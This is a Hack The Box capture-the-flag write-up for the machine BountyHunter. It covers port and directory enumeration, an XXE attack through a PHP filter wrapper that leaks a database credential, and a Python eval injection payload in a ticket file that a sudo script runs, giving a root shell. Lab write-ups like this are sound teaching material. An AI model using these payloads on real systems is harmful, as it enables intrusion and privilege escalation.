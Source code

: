 ```yaml
---
title: "[HTB] Machine: BountyHunter"
description: "[HTB] Machine: BountyHunter"
date: 2023-08-05
menu:
  sidebar:
    name: "[HTB] Machine: BountyHunter"
    identifier: htb-machine-BountyHunter
    parent: htb-machines-linux
    weight: 10
hero: images/BountyHunter.png
tags: ["HTB", "xxe", "python-eval", "command-injection"]
---
```


# BountyHunter
## Enumeration
- `nmap`
```
└─$ nmap -sC -sV -Pn 10.10.11.100
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:22 BST
Nmap scan report for 10.10.11.100 (10.10.11.100)
Host is up (0.18s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 d4:4c:f5:79:9a:79:a3:b0:f1:66:25:52:c9:53:1f:e1 (RSA)
|   256 a2:1e:67:61:8d:2f:7a:37:a7:ba:3b:51:08:e8:89:a6 (ECDSA)
|_  256 a5:75:16:d9:69:58:50:4a:14:11:7a:42:c1:b6:23:44 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Bounty Hunters
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.17 seconds
```
- `gobuster`
```
└─$ gobuster dir -u http://10.10.11.100/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x txt,php
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.100/
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              txt,php
[+] Timeout:                 10s
===============================================================
2023/08/07 15:32:18 Starting gobuster in directory enumeration mode
===============================================================
/resources            (Status: 301) [Size: 316] [--> http://10.10.11.100/resources/]
/assets               (Status: 301) [Size: 313] [--> http://10.10.11.100/assets/]
/.php                 (Status: 403) [Size: 277]
/index.php            (Status: 200) [Size: 25169]
/portal.php           (Status: 200) [Size: 125]
/css                  (Status: 301) [Size: 310] [--> http://10.10.11.100/css/]
/db.php               (Status: 200) [Size: 0]
/js                   (Status: 301) [Size: 309] [--> http://10.10.11.100/js/]

```
- Web Server 

![](./images/1.png)

## Foothold/User
- If we visit `/portal.php`
  - We see that it redirects us to `/log_submit.php`

![](./images/2.png)

- When we submit report from `/log_submit.php`, the `POST` request is sent to `/tracker_diRbPr00f314.php`
  - the `data` is base64 encoded `xml`

![](./images/3.png)

![](./images/4.png)

- We can test for `XXE`
  - And it works

![](./images/5.png)

- Now we can try looking for creds
  - We can load `php` files and analyse the source code
  - I remembered `db.php` file from `gobuster` results
  - Since it's `php` file we need to wrap `php` file around filter, or it will return empty
  - Check the [post](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection#php-wrapper-inside-xxe)
  - `admin:m19RoAU0hP41A1sTsq6K`

![](./images/6.png)

![](./images/7.png)

- Use creds for `ssh`
  - There is no `admin` user, but we have `development` user
  - The creds work

![](./images/8.png)

## Root
- Enumerate `sudo` rights

![](./images/9.png)

- If we check `source` code 
  - We can use `eval` function by inserting values to ticket

![](./images/10.png)

- Example of ticket
```
development@bountyhunter:/opt/skytrain_inc/invalid_tickets$ cat 390681613.md 
# Skytrain Inc
## Ticket to New Haven
__Ticket Code:__
**31+410+86**
##Issued: 2021/04/06
#End Ticket
```

- We can copy and modify valid ticket 
  - add payload between `**` 
  - The first `int` should satisfy `if int(ticketCode) % 7 == 4:`
  - Payload: `32+110+43+ __import__('os').system('bash')`

![](./images/11.png)

![](./images/12.png)
